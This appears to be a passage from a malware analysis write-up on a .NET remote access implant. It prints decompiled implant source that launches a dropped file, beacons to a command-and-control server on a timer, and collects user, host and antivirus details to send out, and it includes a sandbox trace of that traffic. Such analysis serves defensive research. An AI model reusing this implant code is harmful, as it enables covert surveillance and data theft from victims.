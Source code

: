 ```vb
   Shell path_Mofer_file, vbNormalNoFocus
End Sub
```

<h6>The .NET implant begins to load the recon actions, push a timer for sleep the process and try to join the C2. </h6>

```csharp
public void ulhtagniasdo_start()
{
 ulhtagniasCONF.ulhtagniasport = ulhtagniasCONF.ports[0];
 this.ulhtagniasrunTime = DateTime.Now;
 this.ulhtagniasUPC = new ulhtagniasMYINF();
 this.ulhtagniasCMD = new ulhtagniasOCMD(this);
 this.ulhtagniasHD.iserver = this;
 this.ulhtagniasHD.ulhtagniasmainPath = ulhtagniasCONF.ulhtagniasget_mpath();
 TimerCallback callback = new TimerCallback(this.ulhtagniaslookup_connect);
 System.Threading.Timer ulhtagniastimer = new System.Threading.Timer(callback, this.ulhtagniasStateObj, 32110, 36110);
 this.ulhtagniasStateObj.ulhtagniastimer = ulhtagniastimer;
}
```

<h6>Once the connexion is establish with the C2, this sends the informations of the user, system, sensible AV (who detect it easily) and this repertory (here from a trace of the TCP stream of an Anyrun sandbox)</h6>

``` .....info=command.....ulhtagnias-info=user8....|USER-PC|admin||6>1|S.P.1.3|| ||C:\ProgramData\DeIA-WIR\.....clping=Ping.....clping=Ping```

```csharp
private void ulhtagniasuser_info()
{
 string text = string.Concat(new string[]
 {
  this.ulhtagniasUPC.ulhtagniaslancard,"|",this.ulhtagniasUPC.ulhtagniascname,"|",
  this.ulhtagniasUPC.ulhtagniasuname,"|",this.ulhtagniasUPC.ulhtagniasuip,"|",
  ulhtagniasCONF.ulhtagniasOsname(),"|",this.ulhtagniasUPC.ulhtagniasapver,"|",
  ulhtagniasCONF.ulhtagniasloadAV()
 });
 text += "| !ulhtagnias".Split(new char[]{'!'})[0];
 text = text + "|" + this.ulhtagniasUPC.ulhtagniasclientNum;
 text = text + "|" + ulhtagniasCONF.ulhtagniasget_mpath();
 byte[] byteArray = ulhtagniasCONF.getByteArray(text);
 this.ulhtagniaspush_data(byteArray, "ulhtagnias-info=user|ulhtagnias".Split(new char[]{'|'})[0], false);
} 

public static string ulhtagniasOsname()
{
 string result;
 try
 {
  OperatingSystem osversion = Environment.OSVersion;
  result = osversion.Version.Major.ToString() + ">" + osversion.Version.Minor.ToString();
 }
 catch {result = "6>1!ulhtagnias".Split(new char[]{'!'})[0];}
 return result;
}
```
